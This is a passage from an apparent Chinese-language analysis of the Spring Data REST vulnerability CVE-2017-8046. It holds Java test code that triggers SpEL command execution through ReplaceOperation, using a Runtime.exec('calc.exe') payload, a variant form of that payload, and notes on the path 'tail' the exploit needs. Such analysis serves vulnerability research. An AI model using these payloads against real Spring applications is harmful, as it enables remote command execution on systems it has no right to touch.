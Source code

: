 ```
        //patchReplace.perform(new Person(),Person.class); //本来应该使用这个方法直接调用，但是perform函数不是public的。只好用反射来实现。

        Method method1 = ReplaceOperation.class.getDeclaredMethod("perform", Object.class, Class.class);
        Object[] argsxx= {new Person(),Person.class};
        method1.setAccessible(true);
        method1.invoke(patchReplace,argsxx);
    }
}
```

![image.png](img/CVE-2017-8046 Spring Data REST命令执行漏洞/1596181064715-191545d9-544c-44d6-900b-b64d57f308d1.png)

### 本地测试二

上面的方法是首先想到的，却不是最简单的方法。后来想到可以在相同的package中创建测试类，就简便多了。

```
package org.springframework.data.rest.webmvc.json.patch;
//创建一个和ReplaceOperation类一模一样的包名。这样当前类和ReplaceOperation类就处于同一个pacak中，就可以直接调用perform方法了。

import com.example.accessingdatarest.Person;

public class test {
    public static void main(String[] args) throws Exception {
        //path参数中后面的“/11”不能少，其底层方法使用“/”来做字符串分割的，并使用“.”点号重新拼接。
        ReplaceOperation patchReplace = new ReplaceOperation("T(java.lang.Runtime).getRuntime().exec(\"calc.exe\")/11","xxx");
        //变形payload
        //ReplaceOperation patchReplace = new ReplaceOperation("T(java.lang.Runtime).getRuntime().exec(\"calc.exe\")[a]","xxx");
        patchReplace.perform(new Person(),Person.class); //本来应该使用这个方法直接调用，但是perform函数不是public的。只好用反射来实现。
    }
}
```



![image.png](img/CVE-2017-8046 Spring Data REST命令执行漏洞/1596181445391-de41deef-63f0-424e-ae89-3a06df4a1f1a.png)

### 关于payload的“尾巴”



在上面的PoC复现和测试过程中，我们注意到一个现象：

1、spelTest中的代码，正常触发的payload，不需要“尾巴”

2、而我们的漏洞PoC，ReplaceOperation的操作，则需要“尾巴”，否则不会触发。

这是怎么回事呢？仍然以ReplaceOperation的触发逻辑进行说明。

```
T(java.lang.Runtime).getRuntime().exec(\"calc.exe\")
这个不带尾巴的payload，会被分隔为三个部分, 后续会进入到org.springframework.expression.spel.ast.CompoundExpression#getValueRef的逻辑中：

T(java.lang.Runtime).getRuntime().exec(\"calc.exe\")/1
带有以上“尾巴”的会被分隔为四个部分，如下图：
```
